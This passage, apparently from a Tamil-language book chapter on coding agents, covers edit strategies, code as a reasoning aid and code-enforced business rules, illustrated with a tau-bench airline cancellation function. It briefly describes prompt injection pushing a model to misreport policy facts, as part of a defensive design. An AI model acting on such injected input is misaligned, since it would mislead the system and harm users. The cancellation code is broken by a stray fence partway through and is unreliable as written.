**String Start + End Matching** (Old String Start + End → New String): இது பழைய string replacement திட்டத்தின் மேம்படுத்தப்பட்ட வடிவமாகக் கருதப்படலாம். Model முழுமையான பழைய string-ஐ வெளியிட வேண்டியதில்லை; நீக்கப்பட வேண்டிய உள்ளடக்கத்தின் முதல் சில வரிகள் மற்றும் கடைசி சில வரிகளை மட்டும் வழங்கினால் போதும், நடுப்பகுதியைத் தவிர்க்கலாம். Framework இந்த start மற்றும் end pair-ஐப் பொருத்தி மாற்றீட்டுப் பகுதியைக் கண்டறிகிறது, இந்த "start+end" கலவையானது கோப்பில் தனித்துவமாக இருக்கும் வரை. இந்த திட்டம் text replacement-ன் நம்பகத்தன்மையையும் line number approach-ன் செயல்திறனையும் இணைக்கிறது—பெரிய code blocks-ஐ நீக்கும்போது, நூற்றுக்கணக்கான வரிகள் அசல் code-ஐ வெளியிடத் தேவையில்லை, எல்லைகளை மட்டும் காட்டினால் போதும். அதே நேரத்தில், இது இன்னும் abstract line numbers-ஐ விட content matching-ஐ அடிப்படையாகக் கொண்டிருப்பதால், model பிழைகள் செய்யும் ஆபத்து ஒப்பீட்டளவில் குறைவு.

**நடைமுறை ஆலோசனை.** ஒட்டுமொத்தமாக, முக்கியமான Coding Agents ஒவ்வொன்றும் இரண்டு பாதைகளில் தங்கள் சொந்த பிரதிநிதிகளைக் கொண்டுள்ளன: Claude Code "old string to new string" அணுகுமுறையை ஏற்றுக்கொள்கிறது—நம்பகத்தன்மைக்கு முன்னுரிமை அளித்தல், செயல்படுத்த எளிதானது, மேலும் கூடுதல் model தேவையில்லை; மறுபுறம், Cursor Apply Model பாதையை அதன் உச்சத்திற்கு எடுத்துச் சென்றுள்ளது—அர்ப்பணிப்புள்ள வேகமான apply model-ன் பயிற்சி மற்றும் inference-ல் முதலீடு செய்து, அதிக எடிட்டிங் throughput-ஐப் பெறுகிறது. உங்கள் சொந்த Agent-ஐ உருவாக்க, "old string to new string" அணுகுமுறை மிகவும் பாதுகாப்பான தொடக்கப் புள்ளியாகும்; பெரிய அளவிலான எடிட்டுகளைக் கையாளும்போது, "string head/tail matching" மிகவும் சிக்கனமான சமரசமாகும்; line-number அணுகுமுறை ஆழமான IDE ஒருங்கிணைப்பு உள்ள சூழ்நிலைகளில் மட்டுமே நம்பகமானது (எடிட்டர் நிகழ்நேர line-number மேப்பிங்கைப் பராமரித்து, ஒவ்வொரு எடிட்டிற்குப் பிறகும் உடனடியாக model-க்கு மீண்டும் வழங்க முடியும்); இல்லையெனில், line-number drift காரணமாக தோல்வியடைய வாய்ப்புள்ளது.

## Code: ஒரு General Agent-ன் Meta-Capability

முந்தைய பகுதி, நம்பகமான Coding Agent-ஐ எவ்வாறு உருவாக்குவது என்பதை நிரூபித்தது—கட்டிடக்கலை வடிவமைப்பிலிருந்து tool செயலாக்கம் வரை harness engineering வரை. ஆனால் code generation-ன் மதிப்பு வெறும் நிரல்களை எழுதுவதை விட மிகவும் அப்பாற்பட்டது.

> **"Meta-capability" என்றால் என்ன?** ஒரு சாதாரண capability என்பது Agent-ன் ஒரு குறிப்பிட்ட செயலைச் செய்யும் திறன்—ஒரு கேள்விக்கு பதிலளிப்பது, ஒரு குறிப்பிட்ட API-ஐ அழைப்பது, ஒரு உரைத் துண்டை உருவாக்குவது. **Meta-capability** என்பது "மற்ற திறன்களை உருவாக்கக்கூடிய" ஒரு திறன்: Agent அதைப் பயன்படுத்தி புதிய tools, புதிய constraints, மற்றும் புதிய வெளிப்பாட்டு வடிவங்களை இயக்க நேரத்தில் எழுதி, ஒரு பணியை முடிக்கிறது, எல்லா திறன்களும் முன்கூட்டியே கட்டமைக்கப்பட வேண்டியதில்லை. Code generation துல்லியமாக இதுபோன்ற ஒரு meta-capability ஆகும்—இது துல்லியமானது, செயல்படுத்தக்கூடியது, மற்றும் இணைக்கக்கூடியது, இது புதிய tools (scripts, API call sequences), புதிய constraints (assertions, validation rules), மற்றும் புதிய வெளிப்பாட்டு வடிவங்களை (HTML forms, PPTs, video frames) உருவாக்க அனுமதிக்கிறது.

இந்த காரணத்திற்காக, Agent அமைப்பில் code வகிக்கும் பங்கு "நிரல்களை எழுதுதல்" என்பதை விட மிகவும் விரிவானது. அடுத்த ஆறு பகுதிகள், இந்த meta-capability ஐ நிரலாக்கத்திற்கு அப்பால் ஆறு திசைகளில் எவ்வாறு பயன்படுத்தலாம் என்பதை ஒவ்வொன்றாக நிரூபிக்கும்: (1) Thinking Tools—கடுமையான பகுத்தறிவுக்கு இயற்கை மொழிக்கு பதிலாக code ஐப் பயன்படுத்துதல்; (2) Business Rule Constraints—கொள்கைகளை உறுதிப்படுத்தவும் model hallucinations ஐத் தவிர்க்கவும் code ஐப் பயன்படுத்துதல்; (3) Multimedia Generation—PPTs/வீடியோக்கள்/காட்சிப்படுத்தல்களை உருவாக்க code ஐப் பயன்படுத்துதல்; (4) System Adapters—பன்முக APIs ஐ இணைக்க code ஐப் பயன்படுத்துதல்; (5) Generative UI—படிவங்கள் மற்றும் இடைமுகங்களை மாறும் வகையில் உருவாக்க code ஐப் பயன்படுத்துதல்; (6) Bootstrapping—புதிய Agents ஐ உருவாக்க code ஐப் பயன்படுத்துதல்.

இந்த ஆறு திசைகளும் இணையான பட்டியல் அல்ல, மாறாக "meta-capability வின் பொருள்" அடிப்படையில் உள்ளிருந்து வெளியே ஒழுங்கமைக்கப்பட்டுள்ளன:

1.  **Thinking Itself**—பிழை ஏற்பட வாய்ப்புள்ள இயற்கை மொழி பகுத்தறிவை மாற்ற code ஐப் பயன்படுத்துதல் (Thinking Tools);
2.  **Business Rules**—தெளிவற்ற கொள்கைகளை இயக்கக்கூடிய கட்டுப்பாடுகளாக குறியாக்கம் செய்தல் (Business Rule Constraints);
3.  **Content Presentation**—PPTs, வீடியோக்கள் மற்றும் காட்சிப்படுத்தல் கலைப்பொருட்களை உருவாக்குதல் (Multimedia Generation);
4.  **System Interfaces**—பன்முக APIs ஐ இணைத்தல், தரவு வடிவமைப்பு மாற்றங்களுக்கு தானாகவே மாற்றியமைத்தல் (System Adapters);
5.  **User Interfaces**—படிவங்கள் மற்றும் ஊடாடும் இடைமுகங்களை மாறும் வகையில் உருவாக்குதல் (Generative UI);
6.  **The Agent Itself**—புதிய Agents ஐ உருவாக்க code ஐப் பயன்படுத்துதல், ஒரு bootstrap ஐ உருவாக்குதல் (அத்தியாயம் 8 இல் உள்ள "சுய-பரிணாமத்திலிருந்து" வேறுபட்டது, இது எடைகளை மாற்றாது).

இந்த "உள்ளிருந்து வெளியே, இறுதியில் தனக்குள்ளேயே திரும்பும்" நூலைப் பின்பற்றி படிப்பதன் மூலம், code ஒரு meta-capability ஆக கொண்டிருக்கும் ஒருங்கிணைந்த மதிப்பை தெளிவாகக் காண முடியும். தேவைக்கேற்ப புதிய கருவிகளை உருவாக்குவது இந்த meta-capability வின் மேலும் ஒரு நீட்டிப்பாகும், இது அத்தியாயம் 8 இல் விரிவாக விளக்கப்படும்.

### Code ஒரு Thinking Tool ஆக

LLMs இயற்கை மொழி புரிதல் மற்றும் உருவாக்கத்தில் சிறப்பாக செயல்படுகின்றன, ஆனால் துல்லியமான கணக்கீடு, குறியீட்டு கையாளுதல் அல்லது கடுமையான தர்க்கரீதியான அனுமானத்தில் அவை அடிப்படை குறைபாடுகளைக் கொண்டுள்ளன. காரணம், model இன் சிந்தனை இயல்பாகவே நிகழ்தகவு சார்ந்ததும் தோராயமானதும் ஆகும், அதேசமயம் கணித மற்றும் தர்க்க சிக்கல்களுக்கு உறுதியான, துல்லியமான பதில்கள் தேவை. ஒரு குறிப்பிட்ட ஒப்பீடு இதை விளக்குகிறது:

```
Problem: "A class has 40 students. 60% take math, 45% take physics, and 25% take both.
          How many students take only physics but not math?"

Pure Natural Language Reasoning (prone to errors):      Code Reasoning (precise and verifiable):
"60% take math = 24 students,                           math = int(40 * 0.60)    # 24
 45% take physics = 18 students,                        phys = int(40 * 0.45)    # 18
 25% take both = 10 students,                           both = int(40 * 0.25)    # 10
 Only physics = 24 - 10 = 14 students"                  only_phys = phys - both  # 8
→ Mistakenly subtracts from math count, answer wrong    → print(only_phys)  # 8 ✓
```

LLM ஆனது பிரச்சினையைப் புரிந்துகொண்டு குறியீட்டை எழுதும் பொறுப்பை ஏற்கட்டும், மேலும் code interpreter ஆனது துல்லியமான கணக்கீட்டிற்குப் பொறுப்பாக இருக்கட்டும்—இந்த உழைப்புப் பிரிவினை ஒவ்வொன்றும் அதன் பலத்தைப் பயன்படுத்த அனுமதிக்கிறது.

Mathematica-வின் உருவாக்குநரான Stephen Wolfram, இது குறித்து ஆழமான நுண்ணறிவை வழங்கினார். LLM-கள் இருப்பதற்கு முன்பே, துல்லியமான கணிதக் கணக்கீட்டிற்குத் திறன் கொண்ட அமைப்புகள் இருந்தன—அவை **Symbolic Computation** ஐப் பயன்படுத்தி வேலை செய்தன, அதாவது தோராயமான எண் மதிப்புகளுக்குப் பதிலாக கணிதக் குறியீடுகளைப் பயன்படுத்தி வெளிப்பாடுகளைச் செயலாக்கின. உதாரணமாக, ஒரு சாதாரண கால்குலேட்டர் $\sqrt{2}$ ஐ 1.414 எனக் கணக்கிடும், ஆனால் ஒரு symbolic computation அமைப்பு $\sqrt{2}$ என்ற சரியான வடிவத்தை வைத்திருக்கும், தேவைப்படும்போது மட்டுமே தசமமாக மாற்றும். Wolfram ஆல் உருவாக்கப்பட்ட Wolfram Alpha, அத்தகைய ஒரு அமைப்பாகும்: பயனர்கள் ஒரு கணிதப் பிரச்சினையை உள்ளீடு செய்கிறார்கள், அது ஒரு துல்லியமான பதிலைத் தருகிறது. இருப்பினும், அதன் இயற்கை மொழி புரிதல் மிகவும் உடையக்கூடியது மற்றும் அதன் கவரேஜ் குறுகியது—இது ஒரு உள்ளமைக்கப்பட்ட இலக்கணப் பாகுபடுத்தியை நம்பியுள்ளது, இது வரையறுக்கப்பட்ட சொற்றொடர்களை மட்டுமே அடையாளம் காண முடியும்; சொற்றொடரில் ஒரு சிறிய மாற்றம் பாகுபடுத்தல் தோல்வியடைய காரணமாகலாம், மேலும் இது நிச்சயமாக திறந்த-கள பல-படி பகுத்தறிவைக் கையாள முடியாது. LLM-கள் இந்த இடைவெளியை முழுமையாக நிரப்புகின்றன—அவை பல்வேறு இயற்கை மொழி வெளிப்பாடுகளைப் புரிந்துகொள்வதில் சிறந்து விளங்குகின்றன, ஆனால் துல்லியமான கணக்கீட்டில் சிறந்தவை அல்ல. புதிய கூட்டு மாதிரி: LLM ஆனது பயனரின் இயற்கை மொழி கேள்வியைப் புரிந்துகொள்வதற்கும், அதற்குள் உள்ள கணித அல்லது தர்க்கரீதியான கட்டமைப்பை அடையாளம் காண்பதற்கும், அதை ஒரு முறையான மொழியாக (Mathematica மொழி அல்லது Python-இன் SymPy நூலகம் போன்றவை) மொழிபெயர்ப்பதற்கும் பொறுப்பாக இருக்கட்டும்; பின்னர் அதை ஒரு பிரத்யேக symbolic computation engine அல்லது constraint solver க்கு துல்லியமான முடிவுகளைப் பெற இயக்குவதற்கு ஒப்படைக்கவும்.

> **சோதனை 5-1 ★★: கணிதப் பிரச்சினை தீர்க்கும் திறனை மேம்படுத்த Code Generation கருவிகளைப் பயன்படுத்துதல்**
>
> **சோதனை இலக்கு**: Code Interpreter உதவியுடன் Agent-இன் கணித சிந்தனையின் துல்லிய முன்னேற்றத்தைச் சரிபார்க்கவும்.
>
> **தொழில்நுட்ப அணுகுமுறை**: Agent-க்கு sympy, numpy, மற்றும் scipy போன்ற கணித நூலகங்களைக் கொண்ட Python sandbox ஐ வழங்கவும். Agent ஒரு கணிதப் பிரச்சினையைச் சந்திக்கும்போது, அதை Python குறியீடாக முறைப்படுத்துகிறது: sympy symbolic computation க்கு (கால்குலஸ், சமன்பாடு தீர்வு), scipy எண் உகப்பாக்கத்திற்கு, numpy அணி செயல்பாடுகளுக்கு. உருவாக்கப்பட்ட குறியீடு sandbox-இல் இயக்கப்பட்டு துல்லியமான முடிவுகளைத் தருகிறது.
>
> **ஏற்றுக்கொள்ளும் அளவுகோல்கள்**: AIME-பாணி பிரச்சினைகளைப் பயன்படுத்தி மதிப்பீடு செய்யவும் (American Invitational Mathematics Examination-ஐ மாதிரியாகக் கொண்டு). தூய chain-of-thought பகுத்தறிவின் துல்லியத்தையும் code-assisted பகுத்தறிவின் துல்லியத்தையும் ஒப்பிடுக, code-assisted முறை கணிசமாக அதிகமாக இருக்க வேண்டும். குறியீடு கணித நூலகங்களைச் சரியாகப் பயன்படுத்துகிறதா மற்றும் தீர்வு செயல்முறை தர்க்கரீதியாக தெளிவாக உள்ளதா என்பதைச் சரிபார்க்கவும்.
>

> **சோதனை 5-2 ★★: தர்க்கரீதியான பகுத்தறிவுத் திறனை மேம்படுத்த Code Generation கருவிகளைப் பயன்படுத்துதல்**
>
> **சோதனை இலக்கு**: constraint-solving குறியீட்டின் உதவியுடன் Agent-இன் தர்க்கரீதியான பகுத்தறிவுத் திறனை மதிப்பிடவும்.
>
> **Technical Approach**: Agent-ஐ Code Interpreter உடன் சித்தப்படுத்துங்கள், அதில் python-constraint நூலகம் உள்ளது. Agent தர்க்கப் புதிர்களை (Knights and Knaves போன்ற பிரச்சனைகள்) முறையான constraint வரையறைகளாக மொழிபெயர்க்கிறது: அனைத்து மாறிகளையும் (ஒவ்வொரு தீவுவாசியின் அடையாளம்), constraints-ஐயும் ("knights உண்மை பேசுகின்றன" போன்ற வழித்தோன்றல்கள்) அடையாளம் கண்டு, constraints-ஐ வரையறுத்து, அனைத்து constraints-ஐயும் திருப்திப்படுத்தும் தீர்வைத் தேட solver-ஐ அழைக்கிறது.
>
> **Acceptance Criteria**: [K&K Puzzle dataset](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves) ஐப் பயன்படுத்தி மதிப்பீடு செய்யவும். Code-assisted mode 90% க்கும் மேற்பட்ட solution accuracy-ஐ அடைய வேண்டும், இது pure thinking mode-ஐ விட கணிசமாக அதிகமாகும்.
>

இந்த பரிசோதனை ஒரு பொதுவான வடிவத்தையும் வெளிப்படுத்துகிறது: model மற்றும் harness இடையே ஒரு trade-off உறவு உள்ளது. Model போதுமான அளவு வலுவாக இருக்கும்போது, harness மெல்லியதாக இருக்கலாம்—model தானாகவே சரியாகக் காரணம் கூற முடியும், மேலும் code solver-இன் ஆதாயம் குறுகுகிறது. Model போதுமான அளவு வலுவாக இல்லாதபோது, harness-இல் அதிக வேலை செய்யப்பட வேண்டும்—சரியான தன்மையை உறுதிப்படுத்த முக்கிய தர்க்கரீதியான பகுத்தறிவை code மற்றும் constraint solvers-க்கு மாற்ற வேண்டும். இந்த காரணத்திற்காக, இந்த பரிசோதனை வேண்டுமென்றே பலவீனமான model-ஐப் பயன்படுத்தி இந்த வேறுபாட்டை பெரிதாக்குகிறது: பலவீனமான model-உடன், pure thinking mode அடிக்கடி கணக்கீட்டுப் பிழைகளைச் செய்யும், அதே நேரத்தில் code assistance துல்லியத்தை கணிசமாக அதிகரிக்க முடியும்; போதுமான வலுவான reasoning model-க்கு மாறினால், pure thinking பெரும்பாலும் அனைத்து புதிர்களையும் தீர்க்க முடியும், மேலும் code assistance-இன் ஆதாயம் பூஜ்ஜியத்திற்கு அருகில் செல்கிறது. எனவே, harness எவ்வளவு தடிமனாக இருக்க வேண்டும் என்பது நீங்கள் பயன்படுத்தும் model-இன் capability boundary-ஐப் பொறுத்தது—இது Agent தொழில்நுட்பத்தை மதிப்பிடும்போது எளிதில் கவனிக்கப்படாத ஒரு முன்நிபந்தனையாகும்: ஒரே harness, வெவ்வேறு திறன்களைக் கொண்ட models-உடன் இணைக்கப்படும்போது, மிகவும் வித்தியாசமான முடிவுகளைத் தரலாம்.

### Business Rules-க்கான Constraint ஆக Code

இந்தப் பகுதி முந்தைய Harness Engineering-க்கு நேரடியான பதிலாகும். Harness-இன் முக்கிய கொள்கைகளில் ஒன்று "Constraints: Encoded, Not Documented"—விதிகளை இயற்கை மொழி ஆவணத்திலிருந்து executable code ஆக மாற்றி, அவற்றை வழிகாட்டும் பரிந்துரைகளாக அல்லாமல் கணினி நடத்தையின் கட்டாயக் கட்டுப்பாடுகளாக மாற்றுகிறது. Code generation, Agent இந்த மாற்றச் செயல்முறையை தானாகவே முடிக்க உதவுகிறது.

Business rules, workflows மற்றும் decision logic ஆகியவை இயற்கை மொழியில் மட்டுமே விவரிக்கப்பட்டால், அவை பெரும்பாலும் தெளிவின்மை நிறைந்தவை. "நியாயமான பணத்திரும்பக் கோரிக்கை" என்றால் என்ன? "அவசரநிலை" என்றால் என்ன? இந்தக் கருத்துகளின் எல்லைகளை இயற்கை மொழியில் வரையறுப்பது கடினம்—"வாங்கிய 7 நாட்களுக்குள் பணத்தைத் திரும்பப் பெறலாம்" என்பது தெளிவாகத் தோன்றினாலும், "7 நாட்கள்" என்பது காலண்டர் நாட்களா அல்லது வேலை நாட்களா? "வாங்குதல்" என்பது ஆர்டர் செய்யும் நேரத்தையா அல்லது அனுப்பும் நேரத்தையா குறிக்கிறது? இதற்கு மாறாக, code தெளிவான, executable அறிவுப் பிரதிநிதித்துவத்தை வழங்குகிறது—அது வெற்றிகரமாக இயங்கும் அல்லது பிழையை ஏற்படுத்தும்; தெளிவின்மைக்கு இடமில்லை.

**சிக்கலான Business Rules-ஐ துல்லியமாக வெளிப்படுத்துதல்.**

**Natural Language Rules vs. Codified Rules: நிரப்பு, மாற்று அல்ல**

System prompt இல் விதிகளை எழுதுவதன் நன்மை: model ஆனது விதிகளின் அடிப்படையில் பயனர்களுக்கு **கொள்கைகளை விளக்க** முடியும்; விதிகளின் அடிப்படையில் **மாற்று வழிகளைக் கண்டறிய** முடியும் (எ.கா., "ரத்து செய்வதற்குப் பதிலாக மறு முன்பதிவு செய்யவும்"); ஒரு tool ஐ அழைப்பதற்கு முன் ஆரம்ப சாத்தியக்கூறு தீர்ப்பை வழங்க முடியும்.

விதிகளை validation tools ஆக குறியீடாக்குவதன் நன்மை: code logic இன் **துல்லியமும் தெளிவின்மையும்**—"தவறான புரிதல்" இருக்காது; code execution இன் **உறுதித்தன்மை**—ஒரே input எப்போதும் ஒரே output ஐ உருவாக்கும்; **சிக்கலான விதி சேர்க்கைகளுக்கு** குறிப்பாக பொருத்தமானது—multi-condition boolean combinations, நேர கணக்கீடுகள், cross-data-source validation.

நடைமுறையில், அவை ஒன்றாகப் பயன்படுத்தப்பட வேண்டும்: system prompt இல் புரிதல் மற்றும் தொடர்புக்கான இயற்கை மொழி விதிகள் உள்ளன, அதே நேரத்தில் முக்கிய முடிவெடுக்கும் புள்ளிகளில் "காவலர்களாக" செயல்படும் codified validation tools பொருத்தப்பட்டு இணக்கத்தை உறுதி செய்கின்றன.

Codified rules இன் உண்மையான மதிப்பு token efficiency ஐ மேம்படுத்துவதில் இல்லை, மாறாக **மீள முடியாத தவறான செயல்பாடுகளைத் தடுப்பதில்** உள்ளது—ஒரு ஆர்டரை ரத்து செய்தல், நிதியை மாற்றுதல், தரவை நீக்குதல்—இந்த செயல்பாடுகள், ஒருமுறை செயல்படுத்தப்பட்டால், மீள முடியாது. Codified validation செயல்பாட்டிற்கு முன் இறுதி பாதுகாப்புக் கோட்டை அமைக்கிறது. இந்த பாதுகாப்பு உத்தரவாதத்தின் மதிப்பு அதன் செயலாக்கச் செலவை விட மிக அதிகம்.

**Validation மற்றும் Execution ஐ இணைத்தல்: Checklist சிந்தனையை வழிநடத்துகிறது, Truth-Value Validation கதவைக் காக்கிறது**

தனி validation tool ஐ வடிவமைப்பதற்குப் பதிலாக, execution tool முதலில் உள்நோக்கி validation ஐச் செய்வது நல்லது. τ-bench (tau-bench, விமான நிறுவனம் மற்றும் இ-காமர்ஸ் வாடிக்கையாளர் சேவை காட்சிகளை உருவகப்படுத்தும் ஒரு benchmark, குறிப்பாக Agent இன் tool-calling மற்றும் policy-compliance திறன்களை மதிப்பிட வடிவமைக்கப்பட்டது) இலிருந்து விமான நிறுவன ரத்துக் கொள்கையை உதாரணமாக எடுத்துக் கொள்வோம்:

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Optional: for model self-check; server uses database truth for verification
    expected_has_insurance: bool = None  # Optional: for model self-check; same as above
) -> dict:
    """
    Cancel a flight reservation.

    Cancellation policy (enforced server-side based on database truth values):
    - Rule 1: Reservations with any used segments cannot be cancelled
    - Rule 2: Reservations can be unconditionally cancelled within 24 hours of booking
    - Rule 3: Flights cancelled by the airline can always be cancelled
    - Rule 4: Business class can always be cancelled
    - Rule 5: Basic economy and economy require travel insurance to be cancelled

    Before calling, please query the order details and check each rule above one by one; the expected_* parameters are
    for stating your judgment basis, provided for server-side comparison and audit, and do not affect the policy ruling.
    """
    # All policy facts are read from the database; never trust values reported by the model
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Server clock, not provided by the model

    # Log a warning if the model's self-reported value does not match the truth value, to detect the model's erroneous beliefs or potential injection
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)```python
    return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

இந்த வடிவமைப்பின் மதிப்பை இரண்டு நிலைகளில் புரிந்து கொள்ள வேண்டும்.

**முதல் நிலை: சிந்தனைச் சரிபார்ப்புப் பட்டியலாக parameters.** tool விளக்கம் முழு ரத்துக் கொள்கையைப் பட்டியலிட்டு, model "ஆர்டர் விவரங்களை வினவி, ஒவ்வொரு நிபந்தனையையும் ஒவ்வொன்றாகச் சரிபார்த்த பிறகே call செய்ய வேண்டும்" என்று கோருகிறது; விருப்பமான `expected_*` parameters model தனது சொந்த பகுத்தறிவை வெளிப்படையாக எழுதத் தூண்டுகிறது. இந்த parameters-ஐ நிரப்ப, model முதலில் query tool-ஐ அழைத்து ஆர்டர் விவரங்களைப் பெற்று ஒவ்வொரு நிபந்தனையையும் ஒவ்வொன்றாகச் சரிபார்க்க வேண்டும் — parameters-ஐ நிரப்பும் செயல்முறை அடிப்படையில் ஒரு **கட்டாயச் சரிபார்ப்புப் பட்டியல்** ஆகும். cabin class economy என்றும் insurance வாங்கப்படவில்லை என்றும் model கண்டறிந்தால், call-க்கான தயாரிப்பின் போது rule 5-ஐ கவனிக்க வாய்ப்புள்ளது, இதனால் **call-ஐத் தொடங்கவே மாட்டாது**, மாறாக நேரடியாகப் பயனரிடம் "Economy class-இல் insurance இல்லாமல் ரத்து செய்ய முடியாது. ரத்து செய்வதற்கு முன் insurance வாங்கவும் அல்லது உங்கள் முன்பதிவை மாற்றவும்" என்று கூறும். இந்த நிலையின் மதிப்பு சிந்தனையை வழிநடத்துவதிலும் தவறான calls-ஐக் குறைப்பதிலும் உள்ளது; இருப்பினும், இது பாதுகாப்புப் பொறுப்பை ஏற்காது — `expected_*` parameters என்பது model-இன் சுய அறிக்கை மட்டுமே, server அவற்றை உண்மைகளாக ஒருபோதும் கருதாது.

**இரண்டாம் நிலை: காவலராக server-side ground-truth validation.** குறியீட்டில் உள்ள முக்கிய வடிவமைப்பைக் கவனியுங்கள்: cabin class, insurance நிலை, முன்பதிவு நேரம், segment பயன்பாடு மற்றும் flight நிலை அனைத்தும் server-ஆல் database-இலிருந்து வினவப்படுகின்றன; தற்போதைய நேரம் server clock-இலிருந்து வருகிறது. **எந்தக் கொள்கை உண்மையும் model-இன் சுய அறிக்கை parameters-இலிருந்து வருவதில்லை.** இது தேவையற்ற எச்சரிக்கை அல்ல: model hallucinate செய்யலாம் அல்லது prompt injection-ஆல் கையாளப்படலாம் — முன்பு "மூன்று கொடிய கூறுகள்" பகுப்பாய்வில் கூறியது போல, ஒரே context-இல் உள்ள agents தங்கள் சொந்த நிரபராதியை நிரூபிக்க முடியாது. `cabin_class`, `has_insurance`, மற்றும் `current_time` கூட model-ஆல் நிரப்பப்படும் parameters ஆக வடிவமைக்கப்பட்டிருந்தால், model ஒரு மதிப்பைத் தவறாகப் புகாரளித்தாலும் (அல்லது புகாரளிக்கத் தூண்டப்பட்டாலும்) "காவலர்" பயனற்றதாகிவிடும். கடைசி பாதுகாப்புக் கோடு model பொய்யாக்க முடியாத தரவுகளின் மீது கட்டமைக்கப்பட வேண்டும் — இது முந்தைய "முக்கியமான செயல்பாடுகளுக்கு சுயாதீன சரிபார்ப்பு தேவை" என்ற நிலைப்பாட்டுடன் ஒத்துப்போகிறது: சுயாதீனம் என்பது சுயாதீன model-ஐ மட்டுமல்ல, சுயாதீன தரவு மூலத்தையும் குறிக்கிறது.

மூன்று-அடுக்கு பாதுகாப்பு இவ்வாறு முழுமையடைகிறது: (1) system prompt-இல் உள்ள இயற்கை மொழி விதிகள் புரிதலுக்கும் விளக்கத்திற்கும் உதவுகின்றன; (2) tool விளக்கங்கள் மற்றும் parameter வடிவமைப்பு ஒரு சரிபார்ப்புப் பட்டியலாகச் செயல்பட்டு, call செய்வதற்கு முன் நிபந்தனைகளை வெளிப்படையாகச் சரிபார்க்க model-ஐ வழிநடத்துகிறது; (3) database ground truth-ஐப் பயன்படுத்தி server-side code-based validation இறுதிக் காவலராகச் செயல்படுகிறது. முதல் இரண்டு அடுக்குகள் பிழைகள் ஏற்படுவதைக் குறைக்கின்றன, மூன்றாவது பிழைகள் மீள முடியாத இழப்புகளாக மாறாமல் இருப்பதை உறுதி செய்கிறது.

> **சோதனை 5-3 ★★: சிறிய models code-based knowledge மூலம் விதி செயலாக்கத் துல்லியத்தை மேம்படுத்துகின்றன**
>
> **சோதனை நோக்கம்**: சிறிய-அளவிலான மாதிரிகள் (Qwen3-4B) குறியீடு அடிப்படையிலான வணிக விதிகள் மூலம் சிக்கலான கொள்கை செயலாக்கத்தின் துல்லியம் மற்றும் நிலைத்தன்மையை கணிசமாக மேம்படுத்துகிறதா என்பதை சரிபார்க்கவும்.
>
> **தொழில்நுட்ப அணுகுமுறை**: τ-bench விமான நிறுவன வாடிக்கையாளர் சேவை காட்சியின் அடிப்படையில் ஒரு கட்டுப்படுத்தப்பட்ட சோதனையை வடிவமைக்கவும். **கட்டுப்பாட்டுக் குழு**: தூய இயற்கை மொழி விதிகள், மாதிரியின் சொந்த பகுத்தறிவை நம்பியிருத்தல். **சோதனைக் குழு**: மூன்று-அடுக்கு பாதுகாப்பு — system prompt இயற்கை மொழி விதிகளைத் தக்கவைக்கிறது; tool description முழு கொள்கையையும் பட்டியலிட்டு, விருப்ப `expected_*` அளவுருக்களைப் பயன்படுத்தி, ஒவ்வொரு நிபந்தனையையும் அழைப்பதற்கு முன் ஒவ்வொன்றாகச் சரிபார்க்க மாதிரியை வழிநடத்துகிறது (checklist); tool உள் குறியீடு அடிப்படையிலான சரிபார்ப்பை உருவகப்படுத்தப்பட்ட தரவுத்தள ground truth (அனைத்து கொள்கை உண்மைகளும் தரவுத்தளத்திலிருந்து பெறப்படுகின்றன, நேரம் சர்வர் கடிகாரத்திலிருந்து எடுக்கப்படுகிறது, மாதிரியின் சுய-அறிவிக்கப்பட்ட அளவுருக்கள் நம்பப்படுவதில்லை) அடிப்படையில் செய்கிறது. மதிப்பீட்டு அளவீடுகள்: பணி வெற்றி விகிதம், கொள்கை மீறல்களின் எண்ணிக்கை, தவறான tool அழைப்புகளின் எண்ணிக்கை, பயனர் அனுபவம்.
>
> **எதிர்பார்க்கப்படும் முடிவுகள்**: சோதனைக் குழு கட்டுப்பாட்டுக் குழுவை விட கணிசமாக சிறப்பாக செயல்படுகிறது. மிக முக்கியமாக, மாதிரி அளவுருக்களைத் தயாரிக்கும் போது மீறல்களைத் தானாகவே அடையாளம் கண்டு, நேரடியாக பயனருக்கு மாற்று வழிகளை முன்மொழிவதைக் காணலாம், இது "parameters as a checklist" இன் செயல்திறனைச் சரிபார்க்கிறது; அதே நேரத்தில், `expected_*` சுய-அறிவிக்கப்பட்ட மதிப்புகளுக்கும் தரவுத்தள ground truth க்கும் இடையே உள்ள முரண்பாடுகளின் விகிதம் கணக்கிடப்படுகிறது, இது தவறான அறிவாற்றலைத் தடுப்பதில் "server-side ground-truth validation" இன் அவசியத்தைச் சரிபார்க்கிறது.
>
### Code-driven multimedia generation

